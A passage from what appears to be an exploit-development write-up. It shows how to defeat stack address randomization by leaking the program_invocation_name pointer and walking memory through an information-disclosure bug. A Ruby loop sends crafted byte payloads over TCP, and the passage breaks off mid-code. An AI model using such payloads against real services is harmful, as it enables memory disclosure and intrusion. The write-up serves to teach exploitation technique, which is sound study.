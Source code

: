 
<p>
  Yay, we are done! &#8230; Except the small details of the mprotect, return_addr, and buffer_addr. The mprotect address is easy to find using the information disclosure example above. The return_addr and buffer_addr are a constant offset from each other, so once we find one, we have the other, but how do we find the location of the stack?
</p>


<h3>
  Finishing it up
</h3>


<p>
  So, how do we find the location of the stack without brute-forcing 16 or so bits of randomization?
</p>


<p>
  <em>A bit of full disclosure: <span style="text-decoration: line-through;">there is likely a much better method, hopefully somebody else will write it up.</span> After doing this write-up, I decided to find a better method and found one. However, before I post it, I want to see what ideas other people have.<br />
  </em>
</p>


<p>
  Trivia question: where is there a pointer, to the stack, in the libc address space?
</p>


<p>
  After dumping the memory of the taped process, and searching a stack address, I found the answer. There is the &#8216;program_invocation_name&#8217; which will point to argv[0] (environ might work just as well). Okay, cool. We now know about where the stack is.
</p>


<p>
  However, on Linux, there is also some randomization between the program&#8217;s arguments (and environment variables) and the rest of the stack. To be precise, there is at most 8192 bytes inserted after the arguments and it is 16-byte aligned. This greatly reduces our need to brute-force.
</p>


<p>
  Since we can read arbitrary memory using the information disclosure and we know where the program&#8217;s arguments are, we can start reading at &#8216;program_invocation_name&#8217; and read every integer until we reach a return address of our choosing. In my example, I will use 0x08049809, since it doesn&#8217;t contain null bytes and is not in a library. The example is slightly optimized (it doesn&#8217;t read every integer).
</p>


<pre>count = 0
ret = 0
stack = program_name & 0xffffff00;
stack += 0xc;
until ret == 0x08049809
 stack -= 0x10
 t = TCPSocket.new(host, port)
 t.print "3\n1\n1\n1\n2\n"
 t.print "3\n1\n\x41\x41\x41\x41\x78\x99\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\xFF\xc8\xb0\x04\x08\n"
 t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\xFF\x00\n"
 t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\xFF\x00\n"
 t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\xFF\x01\x00\n"
 t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\xFF\x00\n"
 t.print "3\n1\n\x41\x41\x41\x41\xa0\xb0\x04\x08\x01\xFF\x00\n"
 t.print "3\n1\n\x41\x41\x41\x41"+[stack].pack("L")+"\x01\x00\n"